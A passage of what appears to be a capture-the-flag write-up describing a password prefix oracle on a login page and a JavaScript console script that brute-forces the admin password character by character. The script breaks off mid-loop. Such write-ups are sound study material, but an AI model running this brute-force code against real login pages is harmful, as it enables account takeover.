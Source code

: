 * Meaning: **the login error reveals how many characters of the password are correct (prefix oracle).**

---

## Exploit — Password Oracle

We can brute-force the admin password one character at a time.

<style>
  .video-container {
    position: relative;
    width: 100%;
    max-width: 800px; /* optional, keeps it from being too wide on desktop */
  }

  .video-container video {
    width: 100%;
    height: auto;
    border-radius: 8px; /* optional styling */
  }
</style>

<div class="video-container">
  <video controls>
    <source src="/posts/CTF/NULLCON/output_10x.mp4" type="video/mp4">
    Your browser does not support the video tag.
  </video>
</div>


### Steps

1. Open `/login.php`.
2. Open browser **DevTools → Console**.
3. Paste this JS:

```js
(async () => {
  const USER = "admin";   // target account
  const CHARSET = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789{}_-!@#$%^&*";
  const rx = /got\s+(\d+)\s+characters?\s+correct/i;

  async function score(pw) {
    const body = new URLSearchParams({ username: USER, password: pw }).toString();
    const r = await fetch("/login.php", {
      method: "POST",
      headers: { "Content-Type": "application/x-www-form-urlencoded" },
      body,
      credentials: "include",
      cache: "no-store"
    });
    const text = await r.text();
    const m = text.match(rx);
    return m ? parseInt(m[1], 10) : 0;
  }

  let prefix = "";
  while (true) {
    let found = false;
    for (const ch of CHARSET) {
      const n = await score(prefix + ch);
      if (n === prefix.length + 1) {
        prefix += ch;
        console.log("[+] prefix =", prefix);
        found = true;
```